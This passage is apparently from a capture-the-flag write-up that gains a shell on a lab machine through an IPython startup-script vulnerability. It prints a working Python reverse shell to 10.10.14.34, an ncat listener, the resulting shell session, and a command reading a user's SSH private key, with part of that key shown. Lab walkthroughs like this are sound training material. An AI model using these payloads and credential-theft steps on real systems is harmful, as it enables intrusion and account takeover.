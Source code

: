 After doing some Google-fu [this page](https://security.snyk.io/vuln/SNYK-PYTHON-IPYTHON-2348630) talks about an ipython code execution vulnerability and leads to the release notes of a patch where we can find a link to a [GitHub advisory](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) that details the vulnerability.


If we create the nested directory /profile_default/startup inside /opt/scripts_review which is the directory in which ipython runs
```bash
mkdir -m 777 -p /opt/scripts_review/profile_default/startup
```
then we create a malicious python script inside.
```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.34",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
And setup a listener in our machine.
```bash
sudo ncat -lnvp 443
```

We can potentially receive a remote shell so let's wait and see if it works.

After some time we successfully receive a remote shell!
```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.172.
Ncat: Connection from 10.10.11.172:33558.
dan_smith@shared:/opt/scripts_review$ 
```

## User: dan_smith

### SSH

User dan_smith has SSH access to the machine so let's check if the private key is present so that we can migrate to a more stable SSH shell.
```bash
dan_smith@shared:/opt/scripts_review$ cd   
cd
dan_smith@shared:~$ cat .ssh/id_rsa
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx

...(SNIP)...
```
### Enumeration
